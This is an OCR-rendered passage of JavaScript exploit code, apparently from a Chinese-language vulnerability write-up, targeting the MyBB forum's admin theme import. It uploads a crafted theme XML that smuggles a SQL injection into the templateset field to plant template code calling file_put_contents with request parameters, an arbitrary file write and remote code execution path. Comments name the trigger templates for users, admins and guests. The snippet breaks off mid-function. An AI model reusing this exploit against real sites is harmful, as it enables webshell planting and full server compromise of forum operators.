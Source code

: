 ```

function import_xml()`{`
       var formData = new FormData();
    var url = bashurl + '/admin/index.php?module=style-themes&amp;action=import'

    formData.append("my_post_key", my_post_key);
    formData.append("import", 0);
    formData.append("url", "");
    formData.append("tid", "1");
    formData.append("name", "evilTheme1");
    formData.append("import_stylesheets", "1");
    formData.append("import_templates", "1");

    //需要使程序中的 $this-&gt;cache 存在以下三个 title。才能确保一定能触发 RCE
    //header_welcomeblock_member_user  //普通用户的第一个 evil调用点
    //header_welcomeblock_member_admin //管理员用户的第一个 evil调用点
    //header_welcomeblock_guest_login_modal //匿名用户的第一个 evil调用点
    var content = [
        '&lt;?xml version="1.0" encoding="UTF-8"?&gt;',
        '&lt;theme name="Default" version="1825"&gt;',
        '&lt;properties&gt;',
        '&lt;templateset&gt;&lt;![CDATA[999\') and 1=2 union select \'header_welcomeblock_member_user\',\'$`{`file_put_contents($_GET[0],$_GET[1])`}`;\' union select \'header_welcomeblock_member_admin\',\'$`{`file_put_contents($_GET[0],$_GET[1])`}`;\' union select \'header_welcomeblock_guest_login_modal\',\'$`{`file_put_contents($_GET[0],$_GET[1])`}`;\'#]]&gt;&lt;/templateset&gt;',
        '&lt;imgdir&gt;&lt;![CDATA[images]]&gt;&lt;/imgdir&gt;',
        '&lt;logo&gt;&lt;![CDATA[images/logo.png]]&gt;&lt;/logo&gt;',
        '&lt;tablespace&gt;&lt;![CDATA[5]]&gt;&lt;/tablespace&gt;',
        '&lt;borderwidth&gt;&lt;![CDATA[0]]&gt;&lt;/borderwidth&gt;',
        '&lt;editortheme&gt;&lt;![CDATA[mybb.css]]&gt;&lt;/editortheme&gt;',
        '&lt;disporder&gt;&lt;/disporder&gt;',
        '&lt;colors&gt;&lt;/colors&gt;',
        '&lt;/properties&gt;',
        '&lt;stylesheets&gt;',
        '&lt;stylesheet name="color_black.css" attachedto="black" version="1825"&gt;',
        '&lt;/stylesheet&gt;',
        '&lt;/stylesheets&gt;',
        '&lt;templates&gt;',
        '&lt;/templates&gt;',
        '&lt;/theme&gt;'
    ].join('\n');


    var blob = new Blob([content], `{` type: "text/xml"`}`);

    formData.append("local_file", blob);

    var request = new XMLHttpRequest();
    request.open("POST", url);
    request.send(formData);
`}`

function set_evil_theme()`{`
    var url = bashurl + '/admin/index.php?module=style'

    var xhr=new XMLHttpRequest();
    xhr.open('GET',url,false);
    xhr.onreadystatechange=function()`{`
        if(xhr.readyState==4)`{`
            if(xhr.status==200 || xhr.status==304)`{`
                var res = xhr.responseText;
                var evil_theme = '';

```